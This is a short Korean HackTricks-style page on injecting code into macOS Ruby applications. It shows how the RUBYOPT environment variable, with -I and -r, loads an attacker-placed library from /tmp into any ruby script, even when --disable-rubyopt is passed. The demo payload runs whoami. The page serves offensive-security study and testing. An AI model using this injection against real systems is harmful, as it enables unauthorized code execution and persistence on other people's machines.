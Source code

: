 # macOS Ruby Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## RUBYOPT

이 환경 변수를 사용하면 **ruby**가 실행될 때 **새로운 매개변수**를 **추가**할 수 있습니다. 매개변수 **`-e`**는 실행할 ruby 코드를 지정하는 데 사용할 수 없지만, 매개변수 **`-I`**와 **`-r`**를 사용하여 로드 경로에 새 폴더를 추가한 다음 **로드할 라이브러리**를 **지정**할 수 있습니다.

라이브러리 **`inject.rb`**를 **`/tmp`**에 생성합니다:
```ruby:inject.rb
puts `whoami`
```
어디에나 다음과 같은 루비 스크립트를 생성하세요:
```ruby:hello.rb
puts 'Hello, World!'
```
그런 다음 임의의 루비 스크립트를 다음과 같이 로드합니다:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```
재미있는 사실, **`--disable-rubyopt`** 매개변수와 함께 작동합니다:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```
{{#include ../../../banners/hacktricks-training.md}}
